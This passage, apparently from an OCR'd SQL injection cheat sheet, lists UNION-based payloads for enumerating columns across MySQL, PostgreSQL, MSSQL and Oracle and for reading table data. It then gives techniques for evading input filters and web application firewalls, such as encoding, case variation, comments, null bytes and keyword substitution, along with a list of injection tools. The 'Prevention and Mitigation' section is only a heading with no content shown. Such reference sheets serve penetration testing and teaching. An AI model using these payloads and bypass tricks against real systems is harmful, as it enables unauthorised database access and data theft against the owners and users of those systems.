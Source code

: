 ### List Columns (from a known table `TABLE_NAME` and database `DB_NAME`)
* MySQL: `UNION SELECT column_name FROM information_schema.columns WHERE table_schema='DB_NAME' AND table_name='TABLE_NAME' -- `
* PostgreSQL: `UNION SELECT column_name FROM information_schema.columns WHERE table_name='TABLE_NAME' AND table_schema='public' -- `
* MSSQL: `UNION SELECT name FROM DB_NAME..syscolumns WHERE id=(SELECT id FROM DB_NAME..sysobjects WHERE name='TABLE_NAME') -- ` (older) or `UNION SELECT column_name FROM DB_NAME.INFORMATION_SCHEMA.COLUMNS WHERE table_name='TABLE_NAME' -- `
* Oracle: `UNION SELECT column_name FROM all_tab_columns WHERE table_name='TABLE_NAME' AND owner='SCHEMA_NAME' -- `

### Reading Data (from `TABLE_NAME`, columns `COL1`, `COL2`)
* `' UNION SELECT COL1, COL2 FROM TABLE_NAME -- `

---

## Bypassing Filters & WAFs (Techniques)

* **Case Variation:** `SeLeCt`, `uNiOn`
* **URL Encoding:** `%20` (space), `%27` ('), `%28` ( ( ), `%29` ( ) )
    * Double URL Encoding: `%2527` for `'`
* **Comments:** `/*comment*/`, `/*! MYSQL_SPECIFIC_CODE */` (MySQL versioned comments)
* **Whitespace Variations:** `\t`, `\n`, `\r`, `%09`, `%0a`, `%0d` instead of spaces.
* **Alternative Keywords/Functions:**
    * `AND` -> `&&`
    * `OR` -> `||`
    * `=` -> `LIKE`, `BETWEEN`, `IN`
    * `SUBSTRING()` -> `SUBSTR()`, `MID()`
    * `ASCII()` -> `ORD()`
    * `SLEEP()` -> `BENCHMARK()` (MySQL)
* **Null Bytes:** `%00` (can terminate strings or bypass filters)
* **Character Encoding:** Using UTF-8 fullwidth characters, etc.
* **HTTP Parameter Pollution (HPP):** Supplying multiple parameters with the same name.
* **Using different data types:** e.g. `0xHEX` instead of strings.
* **Obfuscation with functions:** `CONCAT('SEL','ECT')`

---

## Common Tools for SQLi Testing

* **SQLMap:** Automated SQL injection and database takeover tool.
* **Burp Suite:** Web vulnerability scanner and proxy, useful for manual testing.
* **OWASP ZAP:** Open-source web application security scanner.
* **jSQL Injection:** Java-based tool for automatic SQL database injection.
* **BBQSQL:** Python framework for blind SQL injection.

---

## Prevention and Mitigation
